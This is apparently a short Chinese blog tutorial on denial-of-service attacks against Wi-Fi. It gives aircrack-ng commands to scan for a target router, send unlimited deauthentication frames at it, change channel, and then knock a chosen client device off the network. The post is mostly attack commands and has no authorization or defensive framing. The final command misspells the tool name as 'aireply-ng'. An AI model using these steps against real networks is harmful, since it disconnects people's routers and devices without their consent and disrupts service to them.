 ```yaml
---
title: 对无线路由发起DoS攻击
date: 2024-01-26 22:31:41
tags: 无线网络安全
mathjax: true
---
```


# 对无线路由发起DoS攻击

先断开连接，查看附近所有WiFi：

```bash
airodump-ng wlan0
```

记录目标MAC地址，尝试攻击，“-0 0”表示无限次数攻击：

```bash
aireplay-ng -0 0 -a MAC地址 wlan0
```

很有可能本机与目标路由不在同一信道，尝试更改信道：

```bash
iwconfig wlan0 channel 目标信道
```

以上流程适用于攻击该无线路由，以下方法为针对目标终端。

查看都有哪些终端连接到该无线路由：

```bash
airodump-ng --bssid 无线路由MAC地址 wlan0
```

嗅探到目标终端的MAC地址后，再次确认是否在同一信道，尝试进行攻击：

```bash
aireply-ng -0 0 -a 无线路由MAC地址 -c 目标终端MAC地址 wlan0
```
